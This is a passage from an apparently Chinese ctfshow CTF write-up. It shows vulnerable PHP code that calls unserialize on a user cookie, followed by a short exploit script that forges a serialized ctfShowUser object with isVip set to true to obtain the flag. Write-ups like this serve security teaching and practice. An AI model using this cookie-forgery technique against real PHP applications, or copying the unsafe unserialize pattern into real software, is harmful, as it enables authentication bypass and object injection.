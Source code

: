 ```php
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```



#### 解析

题目和上一题就只是加了一个账号与密码不相等输出flag

exp

?username=xxxxx&password=xxxxxx

```php
<?php

class ctfShowUser{
    public $username='xxxxx';
    public $password='xxxxxx';
    public $isVip=true;

}

$a = new ctfShowUser;
echo(urlencode(serialize($a)));
```



![](WEBRESOURCE7a852d3bbff8403eb4d0085bfcbaf4b0.png)











## web257

